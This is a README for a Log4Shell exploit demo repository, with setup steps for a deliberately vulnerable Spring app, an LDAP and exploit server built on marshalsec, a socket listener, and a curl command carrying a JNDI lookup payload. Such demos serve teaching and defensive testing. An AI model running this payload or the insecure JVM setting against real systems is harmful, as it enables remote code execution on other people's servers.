 ## Log4Shell Exploit Demo

🛑 _Code in this repo should be used for educational purposes only!_ 🛑  
🛑 _Do not use these attacks against services which are not under your control!_ 🛑

_Please see [references](#References) for initiating repos with Python samples and further information._

## Purpose

This repo mixes code from repos mentioned in the [references](#References) section to facilitate single language and tech stack (Java/Spring) demo of the exploit. To replay the demo, only Java and Maven have to be installed, though an IDE is recommended.

## Prerequisites

* Java 8+ (for Java8u191+ and Java 11.0+ see _Start_ Todos below)
* Maven 3+
* (Opt.) IntelliJ or Eclipse

### Install LDAP Ref Lib locally

* Clone https://github.com/mbechler/marshalsec
* Uncomment the `<artifactId>maven-assembly-plugin</artifactId>` in `pom.xml`
* Install library to local Maven Repo with `mvn clean install`

### Start Web Application with vulnerable Log4j

* With Java 11 or Java8u191+ (for other Java SDKs see [here](https://www.geekyhacker.com/2021/12/11/three-ways-to-patch-log4shell-cve-2021-44228-vulnerability/)), in Run Configuration, Add VM option `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`

### Start Exploit & LDAP Servers

* Run `L4sexploitApplication`

### Start Socketlistener

* Run `ExploitServer`

### Call Exploit

* Call `curl -A '${jndi:ldap://localhost:1389/a}' http://localhost:9090/`

### References

* Log4Shell-POC: https://github.com/kozmer/log4j-shell-poc
* Web Appication: https://github.com/korteke/log4shell-demo
* LDAP Serialization Hack: https://github.com/mbechler/marshalsec

### To use locally generated marshalsec Maven Artifact

```xml
<dependency>
  <groupId>org.eenterphace.mbechler</groupId>
  <artifactId>marshalsec</artifactId>
  <version>0.0.3-SNAPSHOT</version>
</dependency>
```
